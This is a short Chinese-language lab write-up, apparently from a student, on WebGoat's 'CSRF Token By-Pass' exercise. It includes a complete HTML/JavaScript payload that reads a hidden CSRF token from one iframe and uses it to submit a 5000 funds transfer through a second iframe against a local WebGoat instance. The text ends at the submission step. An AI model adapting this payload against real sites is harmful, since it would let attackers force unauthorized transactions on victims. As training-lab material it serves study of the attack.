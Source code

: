 ### CSRF Token By-Pass

与前两个实验一样，但本次我们需要加入对token的考虑。

先看代码中对隐藏的token部分的相关定义：

![1715669584658](image/SP_1ab1.3&1.4&1.5_3220105114/1715669584658.png)

我们发现需要对CSRFToken进行后缀补充，因此需要对它进行读取并赋值，最终html代码如下：

```html
<script>
var tokensuffix;

function readFrame1()
{
    var frameDoc = document.getElementById("frame1").contentDocument;
    var form = frameDoc.getElementsByTagName("form")[0];
    tokensuffix = '&CSRFToken=' + form.CSRFToken.value;
    
    loadFrame2();
}

function loadFrame2()
{
    var testFrame = document.getElementById("frame2");
    testFrame.src="http://localhost:8080/WebGoat/attack?Screen=XXX&menu=YYY&transferFunds=5000" + tokensuffix;
}</script>
<iframe	src="http://localhost:8080/WebGoat/attack?Screen=XXX&menu=YYY&transferFunds=main"
	onload="readFrame1();"
	id="frame1" frameborder="1" marginwidth="0"
	marginheight="0" width="800" scrolling=yes height="300"></iframe>
<iframe id="frame2" frameborder="1" marginwidth="0"
	marginheight="0" width="800" scrolling=yes height="300"></iframe>
```

将其提交：
